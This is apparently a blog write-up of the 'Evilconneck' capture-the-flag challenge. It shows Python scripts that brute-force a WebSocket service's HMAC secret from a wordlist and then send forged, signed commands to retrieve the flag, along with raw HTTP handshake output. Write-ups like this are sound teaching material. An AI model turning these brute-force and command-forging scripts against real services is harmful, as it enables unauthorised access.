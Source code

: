 ```yaml
---
layout: single
title: Mini WebSocket CTF
excerpt: "During the holidays, [@stackfault](https://twitter.com/stackfault) (sysop from the [BottomlessAbyss BBS](https://bbs.bottomlessabyss.net/)) ran a month long CTF with challenges being released every couple of days. Some of challenges were unsolved or partially solved challenges from earlier [HackFest](https://hackfest.ca/) editions as well as some new ones. There was also a point depreciation system in place so challenges solved earlier gave more points. This post is a writeup for the Evilconneck challenge, a quick but fun challenge with websockets and a bit of crypto."
date: 2020-01-27
classes: wide
header:
  teaser: /assets/images/bbsctf-evilconneck/logo.png
  teaser_home_page: true
categories:
  - ctf
  - infosec
tags:
  - websockets
  - crypto
---
```


During the holidays, [@stackfault](https://twitter.com/stackfault) (sysop from the [BottomlessAbyss BBS](https://bbs.bottomlessabyss.net/)) ran a month long CTF with challenges being released every couple of days. Some of challenges were unsolved or partially solved challenges from earlier [HackFest](https://hackfest.ca/) editions as well as some new ones. There was also a point depreciation system in place so challenges solved earlier gave more points. This post is a writeup for the Evilconneck challenge by [@pathetiq](https://twitter.com/pathetiq), a quick but fun challenge with websockets and a bit of crypto.

To start with, we have to connect to the BBS and create an account in order to access the challenge description and flag submission panel. We're given a URL to connect to as well as a bit more information on the other screen.

![](/assets/images/bbsctf-evilconneck/challenge1.png)

![](/assets/images/bbsctf-evilconneck/objectives.png)

On the webpage, there's not much to see: just a couple of images and a few messages about no vulnerabilities present on a static site.

![](/assets/images/bbsctf-evilconneck/website1.png)

![](/assets/images/bbsctf-evilconneck/website2.png)

Checking the HTML source code, we can see that there are some comments about debug mode being turned off.

![](/assets/images/bbsctf-evilconneck/debug.png)

## Debug mode enabled

Enabling the "debug mode" is just matter of sending a GET with the debug variable set: `http://18.222.220.65/evilconneck/?debug=1`

After enabling the debug mode we can see additional javascript being inserted in the page:

![](/assets/images/bbsctf-evilconneck/websocket1.png)

The code is supposed to establish a websocket connection but I'm getting a connection error message when looking at my Firefox console:

![](/assets/images/bbsctf-evilconneck/websocket2.png)

Doing some debugging, I found that the Origin header isn't accepted by the server.

```
GET / HTTP/1.1
Host: 18.222.220.65:64480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: http://18.222.220.65
Sec-WebSocket-Extensions: permessage-deflate
Sec-WebSocket-Key: 31EYkQq62lBuLoMotKrWZw==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

HTTP/1.1 403 Forbidden
Date: Tue, 28 Jan 2020 02:25:38 GMT
Server: Python/3.6 websockets/8.1
Content-Length: 84
Content-Type: text/plain
Connection: close

Failed to open a WebSocket connection: invalid Origin header: http://18.222.220.65.
```

This will probably work by using a hostname intead of the IP address so I added `evilconneck` to my local hostfile and I was able to successfully connect after using the hostname.

Within Burp I can see my client is sending the `uptime` string followed by some base64 encoded data.

![](/assets/images/bbsctf-evilconneck/websocket3.png)

And the response is always `49170.12` and never changes

![](/assets/images/bbsctf-evilconneck/websocket4.png)

## Figuring out the HMAC secret key

The first thing I did next was try to figure what that base64 content is all about and it just decodes to meaningless bytes. Interestingly, the length of the output is 32 bytes so this could be a hash of some sort.

![](/assets/images/bbsctf-evilconneck/sig1.png)

I tried changing the `uptime` message to something else or alter the content of the base64 and I got the following signature failure message everytime: `Signature failed! - Expected: 'b64(b85(passwd)),base64(hmac256)'`

So it's probably safe to assume at this point that `uptime` is the message for which the signature is calculated. Based on the error message, we know that it's using HMAC with SHA256 for the hash function and that HMAC secret is base85 encoded, then base64 encoded.

To test this theory, I used Python to try to generate the HMAC for the `uptime` message using a wordlist so I can bruteforce the HMAC secret key. At first, I made the following script but I wasn't able to find a match with any wordlist I used, such as `rockyou.txt`:

```python
#!/usr/bin/env python3

import base64
import hashlib, hmac
import progressbar
import sys

c = b"Ji/HQqLPH5KpqzZcYFXRdEHnyn2VI1fqU824IzTzAKs="

progressbar.streams.flush()

with open(sys.argv[1], encoding = "ISO-8859-1") as f:
    passwords = f.read().splitlines()

message = sys.argv[2]

with progressbar.ProgressBar(max_value=len(passwords)) as bar:
    for i, p in enumerate(passwords):        
        secret = base64.b64encode(base64.b85encode(p.strip().encode('utf-8')))
        m = hmac.new(secret, digestmod=hashlib.sha256)
        m.update(message.strip().encode('utf-8'))
        m_b64 = base64.b64encode(m.digest())        
        if c in m_b64:
            print(f"Found password: {p}")
            print(m_b64)
            sys.exit(0)
        bar.update(i)
```

After double checking my code for a bit, I saw that there's an option to enable padding before encoding in the `b85encode` function. This pads the input with null bytes so to make the length a multiple of 4 bytes. After enabling padding I was able to find the HMAC secret.

```python
secret = base64.b64encode(base64.b85encode(p.strip().encode('utf-8'), pad=True))
```

No need for the full rockyou.txt list afterall, this one is pretty simple: `secret`

![](/assets/images/bbsctf-evilconneck/secret.png)

## Getting access with websockets

Next, I rewrote my script to send commands through the websocket connection with the proper HMAC appended.

```python
#!/usr/bin/env python3

import asyncio
import base64
import hashlib, hmac
import readline
import sys
import websockets

secret = b'secret'
secret = base64.b64encode(base64.b85encode(secret, pad=True))

async def hello():
    uri = "ws://evilconneck:64480"
    async with websockets.connect(uri, origin='http://evilconneck') as websocket:
        cmd = input('> ')
        m = hmac.new(secret, digestmod=hashlib.sha256)
        m.update(cmd.encode('utf-8'))
        m_b64 = base64.b64encode(m.digest())        
        x = f"{cmd},{m_b64.decode('utf-8')}"
        await websocket.send(x)        
        r = await websocket.recv()
        print(f"{r.decode('utf-8')}")

while True:
    asyncio.get_event_loop().run_until_complete(hello())
```

Once I found the `help` command, I was quickly able to get the flag. I just needed to issue `hello` command as instructed then `getflag` returned out the flag.

![](/assets/images/bbsctf-evilconneck/flag.png)